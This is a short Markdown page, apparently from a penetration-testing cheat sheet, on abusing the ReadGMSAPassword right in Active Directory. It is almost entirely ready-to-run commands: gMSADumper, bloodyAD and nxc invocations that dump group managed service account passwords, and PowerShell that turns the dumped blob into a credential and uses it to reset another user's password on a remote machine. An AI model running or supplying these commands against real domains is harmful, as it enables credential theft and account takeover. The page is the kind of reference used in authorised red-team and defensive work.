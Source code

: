 ```yaml
---
title: "ReadGMSAPassword"
date: 2024-7-23
tags: ["ReadGMSAPassword", "gMSADumper", "active driectory", "ad", "Windows"]
---
```


---
### Abuse #1: Read GMSAPassword (From Linux)

{{< tab set1 tab1 active >}}gMSADumper{{< /tab >}}
{{< tab set1 tab2 >}}BloodyAD{{< /tab >}}
{{< tab set1 tab3 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
python3 gMSADumper.py -u <USER> -p <PASSWORD> -l <TARGET> -d <DOMAIN>
```

</div>

<small>*Ref: [gMSADumper](https://github.com/micahvandeusen/gMSADumper)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```bash
python3 bloodyAD.py -d <DOMAIN> -u <USER> -p <PASSWORD> --host <DC> get object <TARGET_OBJECT> --attr msDS-ManagedPassword
```

</div>

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

<div>

```bash
nxc ldap -u <USER> -p <PASSWORD> -d <DOMAIN> <TARGET> --gmsa
```

</div>

{{< /tabcontent >}}

<br>

---

### Abuse #2: Save as Cred

{{< tab set2 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

<div>

```powershell
$gmsa = Get-ADServiceAccount -Identity <TARGET_NAME> -Properties 'msDS-ManagedPassword'
```

```powershell
$mp = $gmsa.'msDS-ManagedPassword'
```

```powershell
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
```

```powershell
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

```powershell
$cred = New-Object System.Management.Automation.PSCredential <TARGET_NAME>, $SecPass
```

```powershell
# For example, change password of another target user
Invoke-Command -ComputerName <COMPUTER_NAME> -ScriptBlock {Set-ADAccountPassword -Identity <ANOTHER_TARGET_NAME> -reset -NewPassword (ConvertTo-SecureString -AsPlainText '<PASSWORD>' -force)} -Credential $cred
```

</div>

{{< /tabcontent >}}

<br>